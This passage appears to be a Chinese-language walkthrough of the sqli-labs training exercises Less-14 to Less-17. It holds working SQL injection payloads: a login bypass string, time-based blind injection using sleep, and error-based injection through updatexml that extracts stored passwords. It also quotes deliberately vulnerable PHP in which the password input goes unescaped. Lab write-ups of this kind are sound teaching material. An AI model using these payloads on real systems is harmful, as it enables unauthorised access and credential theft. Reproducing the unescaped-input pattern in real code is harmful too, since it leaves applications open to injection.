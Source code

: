 使用万能密码登录

```
s" or 1=1#
```

使用延时注入

```
1" and multipoint((select * from(select * from(select 1 and if(length(database())>3,sleep(20),1))a)b))#
1" and multipoint((select * from(select * from(select 1 and if(length(database())>10,sleep(20),1))a)b))#
```

使用报错注入

```
1" and multipoint((select * from(select * from(select user())a)b))#
```

```
1" and (updatexml(1,concat(0x7e,(select group_concat(password) from security.users),0x7e),1))#
```

## Less15~16

思路与 Less-14 一致，首先得闭合 sql 语句，使用 " ' ') ") 等等之类的来判断

## Less-17

部分题目源码，密码重置缺陷

```php
<?php
............
function check_input($value)
	{
	if(!empty($value))
		{
		// truncation (see comments)
		$value = substr($value,0,15);
		}
		// Stripslashes if magic quotes enabled
		if (get_magic_quotes_gpc()) //agic_quotes_gpc开启时用于在预定义字符（单引号、双引号、斜杠、NULL）前加上反斜杠
			{
			$value = stripslashes($value);
			}
		// Quote if not a number
		if (!ctype_digit($value))
			{
			$value = "'" . mysql_real_escape_string($value) . "'";
			}
	else
		{
		$value = intval($value);
		}
	return $value;
	}
.............
// take the variables
if(isset($_POST['uname']) && isset($_POST['passwd']))

{
//making sure uname is not injectable
$uname=check_input($_POST['uname']);  
$passwd=$_POST['passwd'];  //用户名被check_input 包裹了，而密码没有
// connectivity 
```